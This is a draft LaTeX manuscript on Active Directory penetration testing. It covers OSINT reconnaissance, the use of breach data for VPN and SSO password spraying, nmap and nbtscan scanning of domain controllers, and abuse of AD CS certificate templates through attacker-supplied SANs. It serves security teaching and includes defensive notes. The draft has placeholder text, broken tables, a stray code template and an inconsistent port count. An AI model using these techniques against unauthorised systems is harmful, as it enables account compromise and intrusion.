    External reconnaissance establishes the attack surface for an Active Directory (AD)-backed enterprise without touching internal systems. This chapter presents a disciplined, passive-first workflow to enumerate public assets and derive actionable hypotheses for initial access. Using OSINT and low-impact probing, you will map IP space and hosting providers, resolve domains and subdomains, correlate TLS certificates and CT logs, and fingerprint internet-facing services. You will also infer username / email schemas, mine document metadata and code repositories for disclosures, and enrich findings with breach corpora to enable credential-based attacks (e.g., VPN / SSO spraying). Outputs include a prioritized inventory of targets, validated user lists, technology stacks, and defensive clues (SIEM/EDR/MFA). These artifacts feed directly into subsequent phases-targeted authentication attacks, phishing pretext design, and external service exploitation-while giving blue teams concrete guidance on what to remove, harden, or monitor. The approach emphasizes legality, OPSEC, repeatability, and clear decision points so that reconnaissance efforts remain efficient, evidence-driven, and auditable.
\end{abstract}
\section{Introduction}
Before you attempt to touch a domain controller, you need to first understand what the organization exposes to the internet and what that exposure implies. External reconnaissance is where you turn public signals into operational leverage: who owns which address space, which domains resolve where, which portals accept credentials, and which mistakes in documents or code reveal internal naming schemes and credentials.

A passive-first stance keeps noise-and risk-low. Start by scoping: confirm your target's legal entity names, brands, and known domains and subdomains. Attribute IP ranges and hosting to the organization, including cloud service providers and CDNs / WAFs. Correlate DNS, registration data, and certificate transparency logs to expand subdomains and discover forgotten services. Fingerprint technologies to anticipate authentication flows (e.g., SSO, legacy protocols) and likely detections.

Next, move to identities. Obtain username and email formats from public addresses, press releases, or job postings. Harvest document metadata and public repositories for intranet URLs, internal hostnames, share paths, and accidentally exposed secrets. Enrich with breach data to identify reused or weak credentials and to build validated user lists for controlled password spraying against VPN, OWA / Exchange, SSO, or remote admin portals.

Throughout, it is imperative that you maintain a high level of OPSEC and legality: record sources, timestamps, and hypotheses, and avoid intrusive actions until explicitly in scope. The artifacts you collect will drive your first access attempts and inform defensive recommendations.

The next section enumerates the concrete data points-IP space, domains and services, username / email schema, public disclosures, breach data, and defensive clues-that convert reconnaissance into an actionable plan.

\section{What Are We Looking For?}
During external reconnaissance, your goal is to inventory everything the organization exposes (intentionally or not) and turn it into leverage. Much of this is publicly accessible or discoverable through passive means. If you stall during a penetration test, revisiting passive recon-breach data alone can be enough to access a VPN, SSO, or another internet-facing service and get you moving forward again.

\subsection{Target Data (External Reconnaissance)}
\begin{itemize}
    \item \textbf{IP Space and Hosting Footprint:}
    \begin{itemize}
        \item Valid ASNs
        \item Public netblocks
        \item Cloud ranges
        \item DNS A / AAAA records
        \item CDNs and WAFs
        \item Hosting providers
\textit{These sources help bound the attack surface and pick high-valued edges.
}    \end{itemize}
\item \textbf{Domains and Exposed Services:}
\begin{itemize}
    \item DNS Registrars
    \item WHOIS lookups
    \item RDAP data
    \item \textbf{Subdomain Identifiers of Interest:}
    \begin{itemize}
        \item Mail Exchange (MX)
        \item Name Server (NS)
        \item WWW
        \item Virtual Private Network (VPN)
        \item Single Sign-On (SSO)
        \item Outlook Web Access (OWA)
        \item Simple Mail Transfer Protocol (SMTP)
        \item SMTP-AUTH
        \item TLS certificates
        \item CT logs and headers that hint at defensive tech (e.g., WAF, CDN, email security)
    \end{itemize}
\end{itemize}
\end{itemize}
\textit{These components guide service-specific attacks and inform the likely detections.}
\begin{itemize}
    \item \textbf{Username and Email Schema:} Email patterns (e.g., \texttt{first.last}, \texttt{flast}), UPN / SAM formats, and any hint of password policies i place; enables building of valid user lists for password spraying, credential stuffing, and brute-force attempts against Internet-facing auth.
    \item \textbf{Public Data Disclosures:} Documents and repositories (.pdf, .pptx, .docx, .xlsx code on GitHub / GitLab) and their \textit{metadata} (intranet URLs, share paths, internal hostnames, software, and hardware names). Often reveals internal naming schemes and credentials accidentally committed.
    \item \textbf{Breach Data:} Publicly leaked usernames and passwords or hash sets. Fuels targeted spraying, SSO / VPN access attempts, and password reuse pivoting.
    \item \textbf{Defensive Clues (inferred):} Job postings, headers, and banners that indicate SIEM/EDR/AV/IDS/IPS, email security, or MFA providers; helps you plan evasion and choose workable attack chains.
\end{itemize}

\section{Turning Findings into Actionable Plans}
By now, you have identified \textbf{what} to collect: IP spaces and hosting, domains and exposed services, username and email schema, public disclosures, breach data, and defensive clues. Package these into working artifacts-a seeded list of \textit{Fully Qualified Domain Names (FQDN)} and netblocks, a prioritized service inventory (with tech stack notes), a validated user list, and a shortlist of candidate credentials. Tie each item with a source and timestamp for auditability. This becomes your \textbf{first-access plan:} which portals to test (VPN/SSO/OWA), which identities to target (spray vs. credential-stuff), and which services to fingerprint more deeply-all bounded by scope and OPSEC.

If something is missing, do not guess. Loop once through passive recon again, tighten hypotheses, and only then consider low-impact active probes that are explicitly in scope.

Moving on, you know what to harvest; now you need \textbf{ places} to harvest this information. In the next section, you will map each data point to concrete sources and collection methods, such as, but not limited to:
\begin{itemize}
    \item Authoritative Registries: WHOIS/RDAP, RIRs (ARIN/RIPE/APNIC), ASN/BGP views, PeeringDB.
    \item DNS and Certificates: Forward/Reverse DNS, passive DNS, zone artifacts (robots.txt / sitemaps), Certificate Transparency logs.
    \item Exposure Scanners: Shodan, Censys, and search engine operators for service fingerprints.
    \item Identities and Metadata: Public email patterns, staff directories, job posts, social networks, code repositories, and document metadata.
    \item Disclosures and breaches: Public repos, pastebins, vendor portals, advisories, and breach corpora.
    \item Defensive Breadcrumbs: Headers, banners, and listings that imply SIEM/EDR/MFA.
\end{itemize}

We will turn this into a repeatable collection pipeline, with deduplication, ownership validation, and confidence tagging-so that every finding is actionable and defensible.

\section{Where Are We Looking?}
You now know \textbf{what} to collect; next is \textbf{where}to collect it. External reconnaissance is a passive first sweep across registries, DNS / cert telemetry, exposure scanners, corporate web properties, social/press, code and cloud footprints, and breach corpora. The goal is to validate ownership, expand coverage to include domains, netblocks, and subdomains, and extract identity and technology signals-without leaving noisy fingerprints.


\begin{table}
    \centering
    \begin{tabular}{cc}
         Resource& Examples\\
         ASN / IP Registrars& IANA, ARIN for searching the Americas; RIPE for searching in Europe; BGP Toolkit\\
         Domain Registrars \& DNS& Domaintools, PTRArchive, ICANN, manual DNS record requests against the domain in question or against well-known DNS servers, such as 8.8.8.8.\\
         Social Media& Searching LinkedIn, Twitter, Facebook, your region's major social media sites, news articles, and any relevant information you can find about the target organization.\\
         Public-Facing Company Websites& Often, the public websites for a corporation will have relevant information embedded. News articles, embedded documents, and the "About Us" and "Contact Us" pages can also be gold mines.\\
         Cloud and Dev Storage Spaces& GitHub AWS S3 buckets, Azure Blob storage containers, Google Dorks\\
         Breach Data Sources& HaveIBeenPwned to determine if any corporate email accounts appear in public breach data. Dehashed to search for corporate emails with cleartext passwords or hashes you can try and crack offline. We can try these passwords against any exposed login portals (Citrix, RDS, OWA, O365, VPN, VMware Horizon, custom applications) that may use AD authentication.\\
    \end{tabular}
    \caption{Caption}
    \label{tab:placeholder}
\end{table}
\subsection{OPSEC and Scope}
Collect passively by default, record sources and timestamps, and only pivot to low-impact active checks if explicitly in scope.
\include{mainmatter/chapter70}
%%%%%%%%%%%%%%%%%%%%% chapter.tex 
%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%%
%
% sample chapter
%
% Use this file as a template for your own input.
%
%%%%%%%%%%%%%%%%%%%%%%%% Springer-Verlag %%%%%%%%%%%%%%%%%%%%%%%%%%
%\motto{Use the template \emph{chapter.tex} to style the various elements of your chapter content.}

%\chapter{Chapter 0 Security Framework]{Active Directory Tier 0 Security Framework: Cyberattack Prevention and Protection Against Advanced Threats}
%}
\label{intro} % Always give a unique label
% use \chaptermark{}
% to alter or adjust the chapter heading in the running head


\chapter{Reconnaissance}
\begin{abstract}
    abstract text
\end{abstract}
\section{1. Reconnaissance}
Before we jump into exploiting Active Directory, we first need to know what we are working with. Think of reconnaissance as scouting the battlefield before planning an attack. If you do not understand the size of the network you want to attack, how many systems are connected, and what services they might be running, you will, for all intents and purposes, be battling this with your hands tied behind my back, essentially blinded once you try to move forward.

Your main goals here are to map the environment, identify live systems and pay special attention to the machines that stand out as critical-especially Domain Controllers and DNS servers.

\subsection{Defining Reconnaissance}
Reconnaissance is the foundational pre-attack stage of any offensive operation against an Active Directory (AD) environment. At this stage, the attacker's main objective is to gather as much intelligence, data, and information as possible to begin forming a dossier against a victim entity which, in turn, paves the way for shaping the rest of the attack chain. Effective reconnaissance provides you a logical attack map of your target environment, reveals potential weak points, and informs decisions on which systems or targeted users to target first. In Active Directory, reconnaissance often reveals the size of the environment, the role of different systems, and the relationships between domain-joined machines, trusts, relationships, and inter-connected forests.

From a defensive standpoint, this stage is equally important to monitor because reconnaissance often generates anomalous network traffic, host enumeration attempts, and abnormal service scanning activities. Detecting reconnaissance efforts early may prevent an attacker from doing all sorts of malicious activities against your domain and network such as escalating further into the kill chain.

\section{Understanding Your Environment}
Before targeting the environment, you must first understand your own position within the target network. This involves identifying system IP addresses, network subnets, and routing information. In Linux, native commands provide you with quick situational awareness.

\subsection{Know Your \#SHELL}
Identify your IP stack to include IP address and network subnet using native *nix commands such as:

```
\texttt{\# ifconfig}
and
\texttt{\# route -n}
```
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{nixcommands.png}
    \caption{Enter Caption}
\end{figure}
\begin{itemize}
    \item \textbf \texttt{ifconfig} displays your assigned IP address, subnet mask, and interface details. This information ensures you know which segment of the network you are on.
    \item \textbf \texttt{route -n} reveals the routing table, helping you to determine the default gateway, possible VLAN segmentation, and whether your system can reach other subnets.
\end{itemize}

For defenders, unusual use of \texttt{ifconfig} or repeated attempts to probe multiple routes from a non-administrative machine may indicate a compromised host being used as a staging ground.

\subsection{Identifying Potential Targets}
Once network presence has been established, the next step is to identify live hosts and map the subnet(s). This will provide you a list of potential targets for deeper and more concentrated enumeration.
    \label{fig:placeholder}

Host Discovery
Tools such as \texttt{nbtscan} can enumerate NetBIOS names, IP addresses, and associated hostnames within a given subnet, as such:

\begin{verbatim}
# nbtscan -r 192.168.192.0/24

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{nbtscan2.png}
    \caption{Enter Caption}
    \label{fig:placeholder}
\end{figure}
\end{verbatim}
This quickly identifies domain-joined machines, file servers, and workstations by resolving their NetBIOS information. Attackers are known to frequently target these assets because hostnames often follow specific naming conventions (e.g., \texttt{DC01}, {FSRV01}, {HR-LAPTOP23} that reveal system roles or ownership.

\textbf{Defensive Note:}
Unusual NetBIOS scanning across an entire subnet is an early Indicator of Compromise (IOC). Defenders and security teams can monitor for excessive \texttt{nbtscan}-like traffic or NetBIOS broadcast floods.

\subsubsection{Service and Port Scanning}
After you have identified some live hosts, you must now determine what services they may be exposing. This is where Nmap becomes a critical tool, and one of your best friends. Take the below Nmap command, for example:
\begin{verbatim}
# nmap -sS -p- -T4 192.168.192.10
```
\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{nmapfulltcp.png}
    \caption{Enter Caption}
\end{figure}
\end{verbatim}

This Nmap command launches a full TCP SYN (\texttt{-sS} ) across all 65,536 ports (\texttt{-p-}), with a timing template of 4 (\texttt{-T4}), aggressive but not insane speed).
\begin{itemize}
    \item \textbf \texttt{-sS:} Conducts a stealth SYN scan (half-open scan).
    \item \textbf \texttt{-p-:} Enumerates all 65,536 TCP ports, ensuring no service is skipped or missed.
    \item \textbf \texttt{-T4:} Balances speed with stealth, faster than default but less noisy than \texttt{-T5}.
\end{itemize}

For Active Directory attacks, particular focus should be given to the Domain Controllers, as they are the backbone of identity and access management. Commonly targeted network ports include, but are not limited to:
\begin{itemize}
    \item \textbf{53 (DNS):} Domain name resolution.
    \item \textbf{88 (Kerberos):} Authentication services; vital for Kerberoasting and ticket abuse.
    \item \textbf{135 (RPC):} Remote Procedure Calls; often abused for enumeration.
    \item \textbf{389 (LDAP):} Directory queries; rich in user and group information.
    \item \textbf{445 (SMB):} File sharing, lateral movement, and Pass-the-Hash (PtH) exploitation.
    \item \textbf{464 (Kerberos password change):} Abuse potential for password spraying attacks.
    \item \textbf{636 (LDAPS):} Secure LDAP queries.
    \item \textbf{3268 / 3269 (Global Catalog):} Queries across multi-domain forests.
\end{itemize}

\subsubsection{Scanning the Domain Controller Scenario}
Suppose during reconnaissance, you identify a potential Domain Controller (DC) at IP address \texttt{192.168.192.10.} A targeted Nmap scan against well-known Active Directory-related ports can quickly reveal the key services it is running. For example, the following command performs a focused version scan:
\texttt{\# nmap -sV -p 53,88,135,389,445,464,636,3268,3269 192.168.192.10}

Let us break this command down so that you have a firm grasp as to what the command is actually performing for you:
\texttt{-sV (Service Detection):} This switch tells Nmap to probe each open port to determine the exact service and software version. Instead of simply knowing that port 389 is "LDAP," you can often learn whether it is \textit{Microsoft Active Directory LDAP} on a specific Windows Server build, or even a vendor's custom LDAP implementation. This level of detail is critical for attackers seeking vulnerable versions and equally valuable for defenders validating patch levels.
\texttt{-p 53,88,135,389.445.464.636.3268.3269 (Port Specification):} Instead of scanning all 65,535 ports, this Nmap command narrows the scope to Active Directory's most important services, reducing noise and scan duration. The chosen ports directly map to ADs core functionality:
53/tcp (DNS): AD-integrated DNS, fundamental for domain-wide name resolution and locating domain controllers.
88/tcp (Kerberos): Kerberos authentication traffic; critical for tickets (TGT / TGS) and often targeted by Kerberoasting.
135/tcp (MS RPC): Microsoft Remote Procedure Call endpoint mapper; a common vector for enumeration and lateral movement.
389/tcp (LDAP): Lightweight Directory Access Protocol; used for directory queries. Misconfigurations here often expose sensitive information.
445/tcp (SMB): Server Message Block; vital for file shares and authentication relay. Older versions (SMBv1) are extremely vulnerable.
464/tcp (Kerberos Change / Set Password): Used for password changes within Kerberos authentication.
636/tcp (LDAPS): LDAP over SSL/TLS; often targeted if improperly configured with weak encryption.
3268/tcp (Global Catalog LDAP): Provides forest-wide LDAP queries; useful for enumerating objects across domains.
3269/tcp (Global Catalog LDAP over SSL): Secure version of the Global Catalog query service.

If you specifically focus on these ports,you can greatly accelerate your recon efforts by saving time, and minimizing network traffic "noise" that might otherwise be flagged by defensive monitoring systems.
 Furthermore, the output of this scan will usually reveal service banners and version details. For instance, you might learn that SMB is running Microsoft Windows 7 SMBv1 (and yes, they are out there), immediately signaling the possibility of an \textit{EternalBlue-style exploit.} Or LDAP may expose that the server is running a legacy schema that has not been hardened. This type of reconnaissance forms your foundation for determining attack pathways (for red teamers) or hardening priorities (for blue teamers).



The output typically reveals critical services and their versions, enabling you to determine potential vulnerabilities such as outdated SMB versions or misconfigured LDAP services.

\textbf{Defensive Note:}
Defenders and security teams can baseline expected port scans in their environment. A sudden surge of connections across multiple AD-specific ports may indicate adversarial reconnaissance. Employing honeypots or canary services on non-production IPs can catch this early.

\subsection{Reconnaissance Goals Recap}
By the conclusion of reconnaissance, you should have:
\begin{itemize}
    \item A comprehensive understanding of your target environment, to include:
    \begin{itemize}
        \item Detailed information about the target network architecture and topology information, to include:
        \begin{itemize}
            \item IP addresses, subnet masks, and network ranges
            \item Identification of active systems and services: including their versions and the potential vulnerabilities they may carry
            \item Knowledge of potential entry points and attack pathways: such as open ports and weak security configurations
            \item Information on security policies and deployed security tools: such as firewalls or intrusion detection systems
            \item Details about potential third-party connections or vulnerabilities
            \item Potentially, information on key personnel to aid in social engineering tactics
        \end{itemize}
    \end{itemize}
\end{itemize}

In essence, your goal for reconnaissance is to gather as much information you can on your target or opponent to provide a comprehensive picture of the target's security stance. This information can then be used to further plan and execute more targeted and effective attacks (or, for defenders, to strengthen defenses and mitigate risks in an expedient and efficient manner).
\chapter{Active Directory Pentesting: Objectives, Methodology, and Testing Approaches}

\abstract{Active Directory (AD) is at the core of many organizations' IT infrastructure, responsible for authentication, authorization, and access to critical resources. This chapter outlines the objectives, methodology, and phases of an AD penetration test, covering both black-box (unauthenticated) and grey-box (authenticated) scenarios. Practical use cases, common vulnerabilities, and misconfigurations are discussed to highlight how attackers operate and how defenders can prepare.}
\label{ch:ad-pentesting}

\section{Introduction}
Active Directory (AD) underpins identity and access management for the majority of enterprise environments. By centralizing users, computers, and policies, AD provides efficiency but also introduces a large attack surface. A single misconfiguration or unpatched vulnerability can enable an attacker to compromise the entire domain.

\warningbox{\lipsum[4]}



Because of this, \textbf{Active Directory penetration testing (AD pentesting)} has become a critical defensive practice. AD pentesting simulates real-world attacks to identify exploitable weaknesses, misconfigurations, and privilege escalation paths before adversaries can abuse them. This chapter explains the objectives, scope, and structured methodology of AD pentesting, highlighting the differences between black-box and grey-box testing.

\begin{figure}[htbp]
  \justifying
 % \includegraphics[width=0.8\textwidth]{images/active-directory-pentesting.png}
  \caption{Active Directory Pentesting Overview}
  \label{fig:ad-pentesting-overview}
\end{figure}

\section{What is Active Directory Pentesting?}
AD pentesting is a specialized security assessment targeting the AD environment itself. Unlike general network penetration testing, AD pentesting focuses on the infrastructure that governs authentication, authorization, and trust relationships.

\begin{itemize}
  \item \textbf{Domain Controllers:} The servers that enforce policies, authenticate users, and replicate directory data.
  \item \textbf{Users and Groups:} Accounts, memberships, and privilege assignments.
  \item \textbf{Security Policies:} Password policies, Kerberos configurations, and access controls.
  \item \textbf{Network Services:} LDAP, SMB, Kerberos, DNS, and hybrid cloud connectors (e.g., Azure AD).
\end{itemize}

The goal is not merely to scan for vulnerabilities but to demonstrate realistic attack paths that could compromise confidentiality, integrity, or availability of the domain.

\section{Objectives of AD Pentesting}
The primary objectives are:
\begin{enumerate}
  \item Identify weaknesses in domain controllers, accounts, and policies.
  \item Simulate real attack vectors such as credential theft, relay attacks, and privilege escalation.
  \item Evaluate the resilience of monitoring and logging controls.
  \item Provide actionable recommendations to harden the AD environment.
\end{enumerate}

A successful pentest report does not only list vulnerabilities but shows how an attacker could pivot from a single foothold to complete domain compromise.

\section{Scope Definition}
The scope of an AD pentest is tailored to organizational needs. It may include:
\begin{itemize}
  \item Full enterprise domains and forests.
  \item Specific subnets, OUs, or trust boundaries.
  \item Critical components such as domain controllers, PKI (AD CS), and privileged groups.
  \item Externally exposed interfaces (VPN, RDP gateways, hybrid cloud connectors).
\end{itemize}

Clear scoping ensures tests remain focused and risk-controlled, while also aligning with business objectives.

\section{Methodology}
AD pentesting follows a structured methodology adapted from standard penetration testing frameworks but with AD-specific nuances:

\begin{enumerate}
  \item \textbf{Planning and Scoping:} Define rules of engagement, target systems, and objectives.
  \item \textbf{Reconnaissance:} Collect information on domains, accounts, and topology (human + technical recon).
  \item \textbf{Enumeration:} Use tools (e.g., BloodHound, LDAP queries) to map users, groups, ACLs, and trust paths.
  \item \textbf{Vulnerability Assessment:} Identify CVEs, weak configurations, and policy gaps.
  \item \textbf{Exploitation:} Attempt privilege escalation and lateral movement through realistic attack paths.
  \item \textbf{Post-Exploitation:} Demonstrate impact (e.g., domain admin compromise, data exfiltration).
  \item \textbf{Reporting and Remediation:} Deliver findings with actionable mitigations.
\end{enumerate}

\begin{figure}[htbp]
  \justifying
  \begin{tikzpicture}
    \node[anchor=text,text width=\columnwidth-1.2cm, draw, rounded corners,
          line width=1pt, fill=blue!20, inner sep=5mm] (big) {Active Directory Pentesting Methodology};
    \node[draw, rounded corners, line width=.5pt, fill=blue!10, anchor=west,
          xshift=5mm] (small) at (big.north west) {Methodology};
  \end{tikzpicture}
  \caption{Active Directory Pentesting Methodology}
  \label{fig:ad-pentesting-methodology}
\end{figure}

\section{Pentesting Phases}
\subsection{Reconnaissance}
Human reconnaissance targets people (admins, IT staff) via OSINT and social engineering opportunities, while technical reconnaissance focuses on network enumeration, AD schema discovery, and service fingerprinting.

\subsection{Exploitation}
Two testing models are common:
\begin{itemize}
  \item \textbf{Black Box (Unauthenticated):} Simulates an external attacker with no credentials. Relies heavily on scanning, exploiting CVEs (e.g., Zerologon, PetitPotam), and abusing default protocols (e.g., LLMNR/NBT-NS poisoning).
  \item \textbf{Grey Box (Authenticated):} Simulates an insider or compromised user account. Enables deeper enumeration (BloodHound, LDAP queries) and exploitation of misconfigurations (weak ACLs, DACL abuse, AD CS misconfigurations).
\end{itemize}

\section{Common Attack Scenarios}
\begin{itemize}
  \item \textbf{Credential Abuse:} Kerberoasting, ASREPRoasting, Pass-the-Hash, and Pass-the-Ticket attacks.
  \item \textbf{Network Abuse:} LLMNR/NBT-NS/mDNS spoofing, DHCPv6 poisoning.
  \item \textbf{Privilege Escalation:} Exploiting misconfigured ACLs, trusts, or Group Policy Objects.
  \item \textbf{Domain Controller Exploits:} Zerologon (CVE-2020-1472), PrintNightmare, SMBGhost, EternalBlue.
  \item \textbf{Certificate Abuse:} Exploiting Active Directory Certificate Services (AD CS) for persistence or domain escalation.
\end{itemize}

\section{Conclusion}
Active Directory pentesting is a critical discipline that blends offensive security with defensive insights. By simulating realistic attack paths—whether from an outsider’s perspective (black box) or an insider’s (grey box)—organizations can uncover dangerous weaknesses before adversaries do. A well-executed AD pentest provides not just vulnerabilities, but a roadmap for strengthening resilience against the attacks most likely to succeed in the real world.

\chapter{Abusing and Attacking Active Directory Certificate Services (AD CS)}

\begin{abstract} Microsoft's Active Directory Certificate Services (AD CS) platform provides Public Key Infrastructure (PKI) functionality to facilitate various capabilities including Encrypting File System (EFS), domain authentication, digital signatures, and email security. Certificates are issued by AD CS Certification Authorities (CAs) after receiving a \textit{Certificate Signing Request (CSR)} that is generated by a user or a machine, based on published certificate templates. Certificate templates define parameters such as certificate validity, certificate usage, subject name, and issuance requirements to validate the identity of a certificate requestor.
    This chapter provides a deep dive into common AD CS abuse scenarios (Table 1), newly introduced measures to mitigate potential abuse methods (primarily KB5014754), and general best practices for hardening and improving visibility of defensive infrastructure that leverages AD CS.
\end{abstract}

\section{Understanding the Inner Workings of AD CS}
Active Directory Certificate Services (AD CS) is Microsoft's implementation of a Public Key Infrastructure (PKI) inside an Active Directory environment. At a high level, AD CS issues and manages digital certificates that can be used to authenticate, encrypt, and establish trust between users, computers, and services. These certificates play a critical role in securing communications across an enterprise domain.

When a user or machine needs a certificate, the process begins with an interaction between \textit{ the Enterprise Certificate Authority (CA)} and the requestor. The CA acts as the central trust authority in the domain. Verifies requests, signs certificates, and manages the lifecycle of issued credentials. However, the CA does not act alone. It relies heavily on certificate templates that serve as policy objects in Active Directory. A certificate template defines the rules and requirements that govern how a certificate is issued. Templates specify the intended purpose of the certificate, its validity period, the fields that must be included, and who has permission to request it. In essence, templates ensure that certificates are issued consistently and according to organizational policy.

\section{Typical User CSR Generation Process}

The typical workflow looks like this: A client first generated a public/private key pair. The private key remains securely on the client machine, while the public key is included in a Certificate Signing Request (CSR). This CSR contains additional metadata, such as the subject name and the requested certificate template. The CSR is then sent to the Enterprise CA, which evaluates it against the applicable certificate template and the requestors Active Directory permissions. If the request meets the template requirements and the user has sufficient rights, the CA signs the certificate using its own private key. The signed certificate is then returned to the client, who can now use it to authenticate, encrypt communications, or digitally sign and encrypt messages.

This flow ensures trust because the CA private key is the cryptographic root of authority. Any certificate signed by that key can be validated by checking the corresponding public certificate, which is distributed across the domain. In this way, AD CS provides a scalable mechanism for secure authentication and encrypted communication between enterprise systems.

The most common format for CSRs is the \texttt{PKCS \#10} specification; another is the \textit{Signed Public Key and Challenge (SPKAC)} format generated by many web browsers. For my newcomers, here is a quick rundown of how you can go about in creating a request (CSR) to send to a CA to get an SSL certificate assigned to you.

\subsection{How to Generate a CSR Using OpenSSL}
When working with digital certificates, one of the first steps in the process is generating a Certificate Signing Request (CSR). A CSR is essentially a formal request sent to a Certificate Authority (CA) to issue a certificate. It contains details about the entity making the request (such as organization name, country, and common name (C N), the public key that will be bound to the certificate, and a digital signature proving the requestor controls the corresponding private key.

Once you create a CSR, it is good practice to inspect it first before firing it off to a CA. This allows you to verify that all of the information you intend to include-such as subject fields and key length-is captured correctly. Fortunately, OpenSSL, the widely used cryptographic toolkit, provides a straightforward way to do this.

For example, consider the following command:
\section*{Example Code Box}

Here is a code snippet:

%\begin{lstlisting}[style=customcode, language=Python, caption={Sample Python code}]
%def hello_world():
%    # This function prints Hello World
    print("Hello, World!")

%hello_world()
%\end{lstlisting}


bash
openssl req -in server.csr -noout -text

This command reads the CSR file named \verb|server.csr|, suppresses the Base64 output (\verb|-noout|), and instead prints the contents in a human-readable text format (\verb|-text|).

The output is structured into several key sections:

\begin{itemize}
    \item \textbf{Subject:} This section shows the identity information you provided when creating the CSR. For example:
\end{itemize}
\begin{codeblock}{\texttt{bash}}
openssl req -new -newkey rsa:2048 -nodes -keyout server.key -out server.csr
\end{codeblock}



+`ini
C=USA, ST=CA, L=Los Angeles, O=hackherway, CN=hackherway/emailAddress=hhw@proton.me

 
Here, \verb|C| stands for Country, \verb|ST| for State or Province, \verb|L| for Locality, \verb|O| for Organization, \verb|CN| for Common Name, and \verb|emailAddress| specifies the requestors email. These values will appear on the final certificate once it is issued.
\begin{itemize}
    \item \textbf{Public Key Information}
        This is the public half of the pair of keys generated on your system. In this case, the CSR contains a 2048-bit RSA public key. The \textbf{modulus} (the long block of hexadecimal numbers) represents the actual key material, while the \textbf{exponent} is typically set to \verb|65537 (0x10001)|, a standard and secure RSA parameter.
    \item \textbf{Signature Algorithm and Signature}
        At the bottom of the output, you will see the algorithm used to sign the CSR. In this example, it is \verb|sha256WithRSAEncryption|. This means that the CSR was signed with the requestors private key using RSA, and the integrity of the request is protected with SHA-256 hashing. The long block of hexadecimal numbers that follows is the digital signature itself, which proves the possession of the private key.
\end{itemize}

\subsubsection{Why This Step Is Important}
By inspecting the CSR before submitting it, you can confirm the following.

\begin{itemize}
    \item The subject fields are correct and match your intended identity.
    \item The length of the key (for example, \texttt{ 2048-bit RSA}) is appropriate for your security requirements.
    \item The request has been properly signed, ensuring that the CA can verify the ownership of the private key.
\end{itemize}
This process ensures that mistakes—such as typos in the common name or the use of a weak key length—are caught early. Once submitted to a CA, these errors could result in the issuance of an invalid certificate or force you to start the process over.

 

 






\section{The Role of Certificate Templates}
Certificate templates in AD CS are not simple configuration files; they are Active Directory objects with fine-grained policies. These templates dictate how certificates are generated and what they can be used for. For example, a template may specify that a certificate is valid for one year, can be used only for email encryption, and can be requested only by members of a certain security group. Templates also enforce parameters such as subject name formats, cryptographic algorithms, and renewal settings.

A particularly important aspect of certificate templates is the\textit{Extended Key Usage (EKU)} attribute. EKUs are expressed as \textit{Object Identifiers (OIDs)} and define for what the issued certificate can be used. For example, a template might include the OID for 'Client Authentication' (\texttt{1.3.6.1.5.5.7.3.2}), enabling the certificate to be used for logging into domain resources. Another template might include “Smart Card Logon” (\texttt{1.3.6.1.4.1.311.20.2.2}), which is commonly used for multifactor authentication scenarios. There are also broader or riskier OIDs, such as 'Any Purpose' (\texttt{2.5.29.37.0}), which can allow a certificate to function in nearly any context. This flexibility is powerful, but it also increases the potential for abuse if templates are not carefully managed.

\subsection{Subject Alternative Name (SAN) and Security Implications}
One of the most significant features of certificate templates is the Subject Alternative Name (SAN) extension. SANs allow multiple identities to be bound to a single certificate. In practice, this is useful in large or complex enterprises. For example, a multinational corporation with several subsidiaries may have users who authenticate with different domain names or UPN suffixes. By including SANs in certificates, the enterprise can issue a single certificate that is valid in multiple domains or identity formats, ensuring seamless authentication for users regardless of where they are located in the forest.

However, this flexibility comes with serious risks if it is misconfigured. A certificate template that allows requestors to supply their own SAN values - rather than directly derived from Active Directory - opens up a dangerous attack vector. In such a scenario, a low-privileged user could craft a certificate request and specify the SAN of a highly privileged account, such as a Domain Administrator. If the CA issues the certificate without human approval, the attacker now has a cryptographically valid credential to authenticate as that privileged user. This is not a theoretical issue; it is at the heart of several well-known AD CS exploitation techniques, including what SpectreOps classifies as ESC1.

The danger does not stop there. Because AD CS certificates can be used for Kerberos and NTLM authentication, a maliciously issued certificate can provide an attacker with long-term persistence. Even if the legitimate user changes their password, the certificate remains valid until its expiration or revocation. Moreover, SAN abuse can allow attackers to pivot laterally across domains or services, impersonating users in one area, and using that access to compromise systems elsewhere in the forest.

\subsection{Why Is This Important?}
The way AD CS works, its reliance on trust, templates, and SANs, demonstrates both its power and its fragility. In properly configured environments, AD CS provides scalable, secure identity assurance across a domain. But when certificate templates are misconfigured, particularly around SANs or EKUs, AD CS becomes an incredibly powerful tool for attackers. It can turn a single low-privilege account into the keys to the kingdom, enabling domain escalation, lateral movement, and persistence with very little noise.

\begin{figure}
    \centering
    \includegraphics[width=0.75\linewidth]{cacert.png}
    \caption{FIGURE 4. User Enterprise Certificate Authority (CA) certificate retrieval workflow process}
    \label{fig:placeholder}
\end{figure}

In other words, AD CS sits at the core of enterprise identity trust. When configured correctly, it is a foundational pillar of security. When neglected, it becomes a silent but devastating avenue for compromise.

%\begin{table}[htbp]
\renewcommand{\arraystretch}{1.5}
\setlength{\tabcolsep}{8pt}
\rowcolors{3}{rowgray}{white}
\begin{tabular}{|p{3.5cm}|p{4.5cm}|p{5cm}|p{4cm}|}
\hline
\rowcolor{headerblue}
\multicolumn{4}{|l|}{\textcolor{white}{\textbf{TABLE 1: Recommendations Summary and Security Impact}}} \\

%\textbf{Area} & \textbf{Recommendation} & \textbf{Detail / Facts} & \textbf{Security Impact} \\
\hline
\textbf{SAN Configuration (Pre-KB5014754)} & \parbox[t]{4.5cm}{\begin{itemize}
    \item Disable use of custom SANs
    \item Require CA Manager approval
\end{itemize}} & \parbox[t]{5cm}{\begin{itemize}
    \item Templates allow manual SAN input
    \item Attackers can impersonate identities
\end{itemize}} & \parbox[t]{4cm}{\begin{itemize}
    \item Prevents identity spoofing
    \item Blocks unauthorized SAN issuance
\end{itemize}} \\
\hline
\end{tabular}




\begin{itemize}
    \item Templates allow manual SAN input
    \item Attackers can impersonate identities
\end{itemize} 
\begin{itemize}
    \item Prevents identity spoofing
    \item Blocks unauthorized SAN issuance
\end{itemize} 


\textbf{SAN Configuration (Post-KB5014754)} \\
\parbox[t]{4.5cm}{\begin{itemize}[leftmargin=*,nosep]
    \item Enforce CA Manager approval
    \item Disable custom SANs where allowed
\end{itemize} \\
\begin{tightitemize}
    \item Templates may still permit SAN input
    \item Default behavior may be insecure
\end{tightitemize} \\
